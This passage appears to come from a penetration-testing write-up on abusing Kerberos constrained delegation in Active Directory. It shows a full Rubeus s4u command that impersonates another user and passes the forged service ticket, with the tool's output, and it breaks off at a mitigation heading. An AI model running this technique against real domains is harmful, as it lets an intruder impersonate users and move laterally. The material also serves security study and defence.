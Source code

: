 ```powershell
```



**Issue S4U Request to Delegated SPN with Specified User**

```powershell
PS C:\Users\m0chan> .\Rubeus.exe s4u /ticket:C:\Temp\Tickets\aidanldap.kirbi /impersonateuser:aidan /msdsspn:ldap/dc.m0chanAD.local /altservice:cifs /ptt
 
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
 
  v1.0.0
 
[*] Action: S4U
 
[*] Using domain controller: PRIMARY.testlab.local (172.16.0.254)
[*] Building S4U2self request for: 'TESTLAB.LOCAL\m0chan'
[*]   Impersonating user 'aidan' to target SPN 'ldap/dc.m0chanAD.local'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Sending S4U2self request
[*] Connecting to 172.16.0.254:88
[*] Sent 1437 bytes
[*] Received 1574 bytes
[+] S4U2self success!
[*] Building S4U2proxy request for service: 'ldap/dc.m0chanAD.local'
[*] Sending S4U2proxy request
[*] Connecting to 172.16.0.254:88
[*] Sent 2618 bytes
[*] Received 1798 bytes
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi):
 
      doIGujCCBragAwIBBaEDAgE...(snip)...
 
[*] Action: Import Ticket
[+] Ticket successfully imported!
```



Now we don't really have to issue a `s4u` request if we own the account, we could simply request a `TGS` ticket but of course we would be limited to the context of the pwned account. The `S4U` request is simply if we want to abuse the account trusted for **Constrained Delegation** but impersonate any users context to access said service. 



### [](#header-3)Mitigation / Defending Constrained Delegation 
